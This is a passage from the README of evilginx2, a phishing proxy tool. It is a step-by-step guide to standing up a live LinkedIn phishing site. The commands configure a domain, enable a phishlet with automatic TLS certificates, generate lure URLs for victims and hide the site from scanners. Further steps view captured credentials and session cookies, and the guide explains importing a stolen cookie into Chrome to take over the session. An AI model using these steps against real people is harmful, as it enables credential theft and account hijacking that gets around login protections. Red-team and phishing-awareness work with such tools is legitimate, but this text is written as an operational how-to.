 Set up your server's domain and IP using following commands:
```
config domain yourdomain.com
config ip 10.0.0.1
```

Now you can set up the phishlet you want to use. For the sake of this short guide, we will use a LinkedIn phishlet. Set up the hostname for the phishlet (it must contain your domain obviously):
```
phishlets hostname linkedin my.phishing.hostname.yourdomain.com
```

And now you can `enable` the phishlet, which will initiate automatic retrieval of LetsEncrypt SSL/TLS certificates if none are locally found for the hostname you picked:
```
phishlets enable linkedin
```

Your phishing site is now live. Think of the URL, you want the victim to be redirected to on successful login and get the phishing URL like this (victim will be redirected to `https://www.google.com`):
```
lures create linkedin
lures edit redirect-url 0 https://www.google.com
lures get-url 0
```

Running phishlets will only respond to tokenized links, so any scanners who scan your main domain will be redirected to URL specified as `redirect_url` under `config`. If you want to hide your phishlet and make it not respond even to valid tokenized phishing URLs, use `phishlet hide/unhide <phishlet>` command.

You can monitor captured credentials and session cookies with:
```
sessions
```

To get detailed information about the captured session, with the session cookie itself (it will be printed in JSON format at the bottom), select its session ID:
```
sessions <id>
```

The captured session cookie can be copied and imported into Chrome browser, using [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) extension.

**Important!** If you want **evilginx2** to continue running after you log out from your server, you should run it inside a `screen` session.

## Credits

Huge thanks to Simone Margaritelli ([@evilsocket](https://twitter.com/evilsocket)) for [bettercap](https://github.com/bettercap/bettercap) and inspiring me to learn GO and rewrite the tool in that language!

## License

**evilginx2** is made by Kuba Gretzky ([@mrgretzky](https://twitter.com/mrgretzky)) and it's released under GPL3 license.
